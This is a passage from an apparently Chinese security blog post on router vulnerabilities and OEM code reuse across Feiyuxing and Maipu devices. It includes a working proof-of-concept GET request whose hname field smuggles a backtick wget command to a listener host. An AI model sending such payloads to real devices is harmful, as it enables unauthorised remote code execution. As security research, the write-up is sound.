![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HlpYzVhddlWt8iaNb29icHpFxYu7SF1WG8mrTxpREgFGia2ac25k9Vy1Q4A/640?wx_fmt=png&from=appmsg "null")  
  
  
使用poc进行wget请求  
```
GET /usb_paswd.asp?share_enable=1&passwd=123456&name=login&hpasswd=123456&hname=hlogin%60wget%20http%3A%2F%2F192.168.1.2%3A8000%60&acc_ip=&acc_mac=&acc_wan=0&acc_auth=0&send_email_en=0&send_email_name=0&send_email_pwd=0&device_name=&_=1663771596225 HTTP/1.1

Host:192.168.1.1

User-Agent:Mozilla/5.0(X11;Ubuntu;Linux x86_64; rv:104.0)Gecko/20100101Firefox/104.0

Accept: application/json, text/javascript,*/*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://192.168.1.1/index.htm

Cookie: userid=root; gw_userid=root,gw_passwd=0C667259F7A2069B7C55AB5D95F2FE7B
```  
  
本机先起一个服务，发送上述数据包发现该被攻击机对攻击机服务器发起了服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1Hlp2rAQAMXMeD48az2eSQwlAOuNtLkGuSN7GoJlH6D5cu98zeyY7UVicQ/640?wx_fmt=png&from=appmsg "null")  
### 2.1 OEM漏洞问题  
  
正如上述所说，设备也有属于自己的框架，我们可以通过相应的，可以通过寻找一些cve或者cnvd的路由器进行获取一些js获取得到一些类似的系统设备的相同漏洞，或者rce之后做白盒审计发现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HlwgvC1exjSu40qjhu3BPCib7ef29aLEwiccHSttEf5uOWMaUoHa0iak0UQ/640?wx_fmt=png&from=appmsg "null")  
  
  
如最近的迈普的多业务融合系统和飞鱼星的企业智能上网行为管理的相同漏洞，根据一些引用的静态文件，寻找到两种设备都为使用相同OEM  
飞鱼星飞鱼星企业级智能上网行为管理系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HlKwf2CSfeBzcJkVL4Z0EXMEn64CKxjWIjia99dZeqYxribicGTAiciaWjib8Q/640?wx_fmt=png&from=appmsg "null")  
  
  
迈普多业务融合系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1Hls4Tqt5S5DJiaZlGviakIMOM58LMWfSsriahUIqGdia68icictkfwweHWPeYQ/640?wx_fmt=png&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HlwOZMVmKRvHqZdLrYRaJ1dLHiboTRwgYIpbp5Y3l4Bcnd25vk2zPNNMw/640?wx_fmt=png&from=appmsg "null")  
  
  
发现飞鱼星漏洞在迈普依旧可以使用，如该权限绕过漏洞  
迈普多业务融合系统存在权限绕过(未公开poc，通过飞鱼星反溯得到)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1Hl9KXLibxSk86zCgUjAD1XlXl5iauwAwicODzjnRRnyQ2H83kPcq7tt4NibA/640?wx_fmt=png&from=appmsg "null")  
  